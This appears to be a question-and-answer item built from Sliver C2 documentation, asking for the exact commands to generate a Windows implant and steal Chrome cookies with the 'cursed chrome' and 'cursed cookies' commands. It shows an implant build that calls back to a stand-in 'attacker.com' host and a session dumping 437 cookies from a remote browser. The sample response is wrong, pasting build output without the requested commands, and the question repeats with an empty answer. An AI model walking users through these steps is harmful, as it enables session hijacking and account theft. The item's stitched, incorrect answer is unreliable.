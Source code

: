 Context:## Cursed Chrome
## Cursed Edge
## Cursed Electron
## Cursed Console
## Cursed Cookies
Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:
```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE

 Question: Provide *only* the commands to generate a *Windows payload with Sliver*, establish a session, and extract cookies using the *cursed chrome* and *cursed cookies* commands in Sliver. Format the response as a list of commands in the exact order required \n - generate\n -curded chrome \n -cursed cookie \n  Exclude any explanations or additional text and exclude the bash output, return me only the bash command. 
```
 Your response: 
```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```
 Question: Provide *only* the commands to generate a *Windows payload with Sliver*, establish a session, and extract cookies using the *cursed chrome* and *cursed cookies* commands in Sliver. Format the response as a list of commands in the exact order required \n - generate\n -curded chrome \n -cursed cookie \n  Exclude any explanations or additional text and exclude the bash output, return me only the bash command. 

 Your response: 
